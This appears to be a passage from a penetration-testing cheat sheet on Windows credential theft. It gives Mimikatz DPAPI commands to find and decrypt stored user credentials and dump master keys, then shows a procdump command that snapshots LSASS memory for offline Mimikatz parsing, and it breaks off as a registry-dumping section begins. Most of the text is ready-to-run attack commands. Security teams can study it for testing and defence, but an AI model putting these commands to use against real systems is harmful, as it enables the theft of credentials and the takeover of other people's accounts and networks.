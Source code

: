```plaintext
# Find the IDs of protected secrets for a specific user
dir C:\Users\[USERNAME]\AppData\Local\Microsoft\Credentials

# Get information, including the used master key ID, from a specific secret (take the path from above)
dpapi::cred /in:C:\Users\[USERNAME]\AppData\Local\Microsoft\Credentials\1EF01CC92C17C670AC9E57B53C9134F3

# IF YOU ARE PRIVILEGED
# Dump all master keys from the current system
sekurlsa::dpapi

# IF YOU ARE NOT PRIVILEGED (session as target user required)
# Get the master key from the domain using RPC (the path contains the user SID, and then the ID of the masterkey identified in the previous step)
dpapi::masterkey /rpc /in:C:\Users\[USERNAME]\AppData\Roaming\Microsoft\Protect\S-1-5-21-3865823697-1816233505-1834004910-1124\dd89dddf-946b-4a80-9fd3-7f03ebd41ff4

# Decrypt the secret using the retrieved master key
# Alternatively, leave out /masterkey and add /unprotect to decrypt the secret using the cached master key (see above for caveats)
dpapi::cred /in:C:\Users\[USERNAME]]\AppData\Local\Microsoft\Credentials\1EF01CC92C17C670AC9E57B53C9134F3 /masterkey:91721d8b1ec[...]e0f02c3e44deece5f318ad
```

### Dumping secrets without Mimikatz

We can also parse system secrets without using Mimikatz on the target system directly. 

#### Dumping LSASS

The preferred way to run Mimikatz is to do it locally with a dumped copy of LSASS memory from the target. [Dumpert](https://github.com/outflanknl/Dumpert), [Procdump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump), or other (custom) tooling can be used to dump LSASS memory.

```powershell
# Dump LSASS memory through a process snapshot (-r), avoiding interacting with it directly
.\procdump.exe -r -ma lsass.exe lsass.dmp
```

After downloading the memory dump file on our attacking system, we can run Mimikatz and switch to 'Minidump' mode to parse the file as follows. After this, we can run Mimikatz' credential retrieval commands as usual.

```plaintext
sekurlsa::minidump lsass.dmp
```

#### Dumping secrets from the registry

We can dump secrets from the registry and parse the files "offline" to get a list of system secrets. 🚩

On the target, we run the following:
